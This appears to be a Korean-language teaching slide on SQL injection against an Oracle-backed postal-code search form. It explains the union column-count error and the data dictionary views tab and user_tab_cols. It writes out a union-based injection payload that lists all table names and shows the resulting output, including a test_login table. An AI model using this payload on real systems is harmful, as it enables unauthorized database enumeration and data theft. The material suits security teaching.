

생성된 쿼리문

Select zipcode,sido,gugun,dong,bunji
from zipcode
where dong like ‘상도동%’;

Error : 컬럼의 개수가 맞지 않거나, 컬럼의 데이터형이 다를 때

0.DD 지식
 테이블명을 검색 DD : tab
 테이블에 존재하는 컬럼 정보 얻는 DD : user_tab_cols

1.테이블정보를 얻기

Select zipcode,sido,gugun,dong,bunji
from zipcode
where dong like ‘aaaa‘ union select tname,’0’,’0’,’0’,’0’ from tab -- %’;

Injection이 되어 실행되면 모든 테이블명이 검색된다. => 정보가 있을 만한 테이블을 찾는다.
 dept,0,0,0,0
 emp,0,0,0,0
 test_login ,0, 0, 0, 0

aaaa‘ union select tname,’0’,’0’,’0’,’0’ from tab --
동이름

검색